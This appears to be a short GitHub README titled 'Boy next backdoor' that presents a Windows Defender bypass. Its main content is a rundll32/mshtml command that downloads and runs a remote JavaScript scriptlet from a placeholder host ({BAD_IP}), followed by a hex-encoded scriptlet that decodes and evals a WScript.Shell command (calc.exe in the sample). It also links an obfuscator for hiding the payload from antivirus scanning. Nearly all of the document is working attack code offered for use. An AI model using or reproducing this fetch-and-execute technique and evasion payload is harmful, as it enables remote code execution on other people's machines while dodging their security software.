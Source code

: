 # Boy next backdoor

JS payload + bypass windows defender

Obfuscator: https://codebeautify.org/javascript-obfuscator

CMD command for using: 
```cmd
rundll32.exe javascript:"\..\..\..\mshtml, RunHTMLApplication ";document.write();GetObject("script"+":"+"http://{BAD_IP}/JSpayload.tmp")
```

{PAYLOAD BEFORE OBFUSCATION}

```xml
<?xml version="1.0"?>
<component>
<script>
<![CDATA[
var hex = "6E657720416374697665584F626A6563742822575363726970742E5368656C6C22292E52756E282263616C632E6578652229";

// Hex string is -> new ActiveXObject("WScript.Shell").Run("calc.exe")

var str = '';
for (var n = 0; n < hex.length; n += 2) {
str += String.fromCharCode(parseInt(hex.substr(n, 2), 16));
}
eval(str)
]]>
</script>
</component>
```

Original: http://hyp3rlinx.altervista.org/advisories/MICROSOFT_WINDOWS_DEFENDER_DETECTION_BYPASS.txt
